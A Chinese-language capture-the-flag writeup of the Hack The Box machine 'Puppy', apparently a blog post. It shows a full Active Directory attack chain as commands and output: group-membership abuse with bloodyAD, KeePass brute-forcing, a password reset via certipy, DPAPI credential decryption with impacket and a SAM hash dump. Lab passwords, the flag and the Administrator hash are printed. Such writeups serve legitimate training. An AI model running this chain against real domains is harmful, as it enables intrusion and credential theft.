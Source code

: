 ```yaml
---
title: Puppy # 从 Astro 的 title 转换
date: 2025/05/20 09:00:00 # 从 Astro 的 published 转换，并添加一个默认时间 (例如，早上9点)，使用您指定的日期格式
# updated: YYYY/MM/DD HH:MM:SS # 可选，如果文章有更新日期，可以添加此字段
description: 第一次自己拿下user # 从 Astro 的 description 转换
cover: /images/Puppy.jpg # 从 Astro 的 image 转换，注意路径前添加 '/' 表示根目录
tags: # 从 Astro 的 tags 转换
  - 渗透测试
  - 域渗透
  - dpapi
  - keepass
categories: # 从 Astro 的 category 转换，Hexo 常用 categories (复数)
  - Writeup
# 以下是 Redefine 主题特有或常用的可选字段，根据您的需求选择性添加
# author: 您的名字 # 可选，如需显示文章作者
# avatar: /img/your-avatar.png # 可选，如需显示作者头像
password: 9c541c389e2904b9b112f599fd6b333d # 文章加密，根据需要添加
message: 请给出admin的hash
encrypt_abstract: 里面有什么呢？
# sticky: 1 # 置顶文章，数值越大优先级越高
# comment: true # 是否开启评论，默认开启
# toc: true # 是否显示目录，默认开启
# math: false # 是否开启数学公式，默认关闭
# mermaid: false # 是否开启 Mermaid 图表，默认关闭
---
```

凭证：`levi.james / KingofAkron2025!`

## 侦察阶段

### nmap 扫描结果

```bash
# Nmap 7.94SVN scan initiated Mon May 19 01:41:51 2025 as: nmap -sT -sC -sV -O -p53,88,111,135,139,389,445,464,593,636,2049,3260,3268,3269,5985,9389,49664,49667,49668,49670,49687,51343,51384 -A -oA ./nmapscan/detials 10.10.11.70
Nmap scan report for puppy.htb (10.10.11.70)
Host is up (0.16s latency).

Bug in iscsi-info: no string output.
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-19 12:21:10Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3260/tcp  open  iscsi?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49687/tcp open  msrpc         Microsoft Windows RPC
51343/tcp open  msrpc         Microsoft Windows RPC
51384/tcp open  msrpc         Microsoft Windows RPC
```

### LDAP查询

```bash
# 基本LDAP信息
dn:
domainFunctionality: 7
forestFunctionality: 7
domainControllerFunctionality: 7
rootDomainNamingContext: DC=PUPPY,DC=HTB
ldapServiceName: PUPPY.HTB:dc$@PUPPY.HTB
isGlobalCatalogReady: TRUE
```

### Bloodhound分析

通过Bloodhound分析发现levi.james用户属于HR组，HR组对developer组有写权限。

![Bloodhound分析图](https://raw.githubusercontent.com/Enchanter-W/Pics/master/image-20250519174227000.png)

## 初始访问

### 添加到developers组

通过bloodyAD工具将当前用户添加到developers组:

```bash
bloodyAD -d puppy.htb -u levi.james -p 'KingofAkron2025!' --dc-ip 10.10.11.70 add groupMember developers S-1-5-21-1487982659-1829050783-2281216199-1103
[+] S-1-5-21-1487982659-1829050783-2281216199-1103 added to developers
```

### SMB共享枚举

成功添加到developers组后，可以访问DEV共享:

```
SMB共享摘要:
共享名      权限       注释
ADMIN$     无权访问    Remote Admin
C$         无权访问    Default share
DEV        只读        DEV-SHARE for PUPPY-DEVS
IPC$       只读        Remote IPC
NETLOGON   只读        Logon server share
SYSVOL     只读        Logon server share

重要文件:
DEV共享:
|- KeePassXC-2.7.9-Win64.msi (34,394,112 字节)
|- Projects/ (目录)
|- recovery.kdbx (2,677 字节)
```

## 密码破解

### 破解KeePass数据库

使用keepass4brute工具破解recovery.kdbx:

```bash
./keepass4brute.sh ../recovery.kdbx /usr/share/wordlists/rockyou.txt
[+] Words tested: 36/14344392 - Attempts per minute: 120
[*] Password found: liverpool
```

### KeePass数据库内容

```
| 条目名称            | 用户名 | 密码            |
|-------------------|------|----------------|
| JAMIE WILLIAMSON   |      | JamieLove2025! |
| ADAM SILVER        |      | HJKL2025!      |
| ANTONY C. EDWARDS  |      | Antman2025!    |
| STEVE TUCKER       |      | Steve2025!     |
| SAMUEL BLAKE       |      | ILY2025!       |
```

## 权限提升路径

### 横向移动到ant.edwards

通过NetExec验证凭据:
```
SMB 10.10.11.70 445 DC [+] PUPPY.HTB\ant.edwards:Antman2025!
```

### 检查权限关系

通过Bloodhound发现ant.edwards对adam.silver有完全控制权限。

![用户权限关系](https://raw.githubusercontent.com/Enchanter-W/Pics/master/image-20250521153047624.png)

### 修改adam.silver用户密码

```bash
certipy -debug account update -u 'ant.edwards@puppy.htb' -p 'Antman2025!' -dc-ip 10.10.11.70 -user 'adam.silver' -pass NewPass123! -ldap-scheme ldap
[*] Successfully updated 'adam.silver'
```

### 获取用户标志

使用Evil-WinRM登录:

```powershell
*Evil-WinRM* PS C:\Users\adam.silver\desktop> type user.txt
aed82b50abc986f652c95c9f230963cf
```

## 进一步权限提升

### 发现备份文件与敏感信息

在C盘发现backups文件夹，找到steph.cooper用户的密码: `ChefSteph2025!`

### DPAPI凭据提取

获取并下载DPAPI相关文件:

```powershell
Get-ChildItem -Path 'C:\Users\steph.cooper\appdata\roaming\microsoft\Credentials' -Force -Recurse
Get-ChildItem -Path 'C:\Users\steph.cooper\appdata\roaming\microsoft\Protect' -Force -Recurse
```

使用impacket-dpapi解密主密钥:

```bash
impacket-dpapi masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!'
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

解密凭据:

```bash
impacket-dpapi credential -file C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

### 获取系统权限

使用获取的高权限账户获取系统权限:

```powershell
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)                                                    
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9c541c389e2904b9b112f599fd6b333d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```